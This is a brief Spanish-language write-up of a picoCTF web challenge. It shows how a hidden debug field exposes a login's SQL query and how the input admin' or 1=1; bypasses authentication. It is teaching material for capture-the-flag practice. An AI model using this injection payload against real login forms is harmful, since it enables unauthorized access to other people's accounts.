 #notas_hacking #web
# Reto
## Descripción
There is a website running at `https://jupiter.challenges.picoctf.org/problem/50009/` ([link](https://jupiter.challenges.picoctf.org/problem/50009/)) or http://jupiter.challenges.picoctf.org:50009. Do you think you can log us in? Try to see if you can login!
## Solución
esta un campo oculto que al poner el valor como 1 
```html
<input type="hidden" name="debug" value="1">
```
te muestra datos que se usaban de `debugin`
```sql
username: admin
password: admin
SQL query: SELECT * FROM users WHERE name='admin' AND password='admin'
```
al ser una consulta donde solo se concatenan los valores ingresados es vulnerable a una inyección SQL
si ingresamos `admin' or 1=1;` remanaría viéndose algo como:
```sql
SQL query: SELECT * FROM users WHERE name='admin' or 1=1;' AND password='admin'
```
entonces 1=1 siempre es verdadero e ignora lo demás
## Notas
`SQL injection` -  Es la colocación de código malicioso en sentencias SQL, a través de la entrada de una página web.
## Referencias
https://www.w3schools.com/sql/sql_injection.asp